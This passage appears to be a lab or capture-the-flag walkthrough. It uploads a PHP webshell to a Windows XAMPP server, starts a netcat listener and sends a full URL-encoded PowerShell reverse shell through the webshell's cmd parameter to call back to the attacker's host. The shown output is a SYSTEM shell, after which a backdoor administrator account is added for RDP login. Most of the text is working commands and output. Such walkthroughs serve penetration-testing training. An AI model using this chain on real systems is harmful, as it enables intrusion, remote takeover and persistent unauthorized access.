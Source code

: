 * CTRL+C to write changes to file.

1. Upload webshell to target host.

* Browse to[ http://10.10.122.18](http://10.10.122.18/) from attacker.
* Click ‘Browse’ button.
* Navigate to /root/Desktop/windows-php-reverse-shell.php.
* Click ‘Open’ to select the file.
* Click ‘Submit’ to upload the file.

1. Create listener in attack host’s terminal.

nc -lvnp 1234

1. Verify that webshell GET parameter (cmd) is working by passing ipconfig command in attacker’s browser.

http://10.10.122.18/uploads/windows-php-reverse-shell.php?cmd=ipconfig

1. Execute Powershell in attacker’s browser by copying powershell into the URL as the cmd argument.

http://10.10.122.18/uploads/windows-php-reverse-shell.php?cmd=powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.10.108.143%27%2C1234%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22

* Amend to the attacker’s IP address and to 1234.

1. Connection from target host received.

connection from 10.10.70.179 49827 received!

whoami

nt authority\system

PS C:\xampp\htdocs\uploads> pwd

Path

\----

C:\xampp\htdocs\uploads

Webserver is running with SYSTEM privileges. Create a new user and add it to the 'administrators' group, then login over RDP or WinRM.

1. Create a new user in the reverse shell session created in the previous task.

net user /add newadmin password

1. Add the new user to the Administrators group.

net localgroup administrators newadmin /add

1. Login over RDP using new user account.
